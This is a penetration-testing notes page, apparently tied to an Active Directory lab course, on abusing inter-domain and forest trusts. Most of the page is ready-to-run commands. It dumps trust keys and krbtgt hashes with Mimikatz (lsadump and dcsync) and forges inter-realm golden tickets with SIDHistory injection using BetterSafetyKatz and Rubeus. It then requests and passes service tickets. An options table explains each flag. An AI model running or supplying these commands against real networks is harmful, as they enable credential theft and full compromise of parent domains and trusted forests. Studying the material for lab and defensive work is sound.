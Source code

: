 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.\\

We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the Inter-Realm Trust Key.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key. (SIDHistory)

### Get the trust key

The trust key is required to forge the Inter-Realm TGT.

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```powershell
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:<current_domain_sid> /sids:<sid_to_inject> /rc4:<trust_key> /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options   | Description                                      |
| --------- | ------------------------------------------------ |
| /domain:  | FQDN of the current domain                       |
| /sid:     | SID of the current domain                        |
| /sids     | SID to be injected to the SID history            |
| /rc4:     | RC4 of the trust key                             |
| /krbtgt:  | krbtgt hash can be used instead of the Trust Key |
| /user:    | User to impersonate                              |
| /service: | Target service in the parent domain              |
| /target:  | FQDN of the parent domain                        |
| /ticket   | Path to save the ticket                          |

{% code overflow="wrap" %}
```powershell
# Same can be done with Rubeus
Rubeus.exe evasive-silver /service:krbtgt/dollarcorp.moneycorp.local /rc4:<hash> /sid:<sid> /sids:<sids> /ldap /user:Administrator /nowrap
```
{% endcode %}

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
# Forge the ticket
Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:C:\AD\Tools\trust_tkt.kirbi
```
{% endcode %}

After that any attack can be performed according to the service requested.
